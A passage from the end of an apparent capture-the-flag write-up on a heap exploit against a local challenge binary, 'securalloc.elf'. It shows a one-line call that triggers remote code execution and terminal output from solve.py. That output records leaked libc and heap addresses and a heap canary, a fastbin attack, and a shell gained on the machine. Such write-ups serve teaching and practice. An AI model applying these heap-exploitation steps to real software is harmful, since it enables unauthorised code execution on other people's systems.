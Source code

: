 #### Stage 3. Triggering RCE

Simply call malloc to trigger the RCE chain.

```python
create(r, 0x0)
```

#### Pwned

```terminal
❯ python solve.py
[+] Starting local process './securalloc.elf': pid 32328
[*] Stage 1 > Leaking libc_base addr, heap_base addr, and heap_canary value
[+]         > libc_base: 0x7fd6b8d0f000, heap_base: 0x55cadc53e000, heap_canary: 0x60dd7ea4d53a7200
[*] Stage 2 > Fastbin attack
[*] Stage 3 > Triggering RCE
[+] Pwned!
[*] Switching to interactive mode
$ uname -a
Linux fokt 5.0.0-31-generic #33~18.04.1-Ubuntu SMP Tue Oct 1 10:20:39 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```
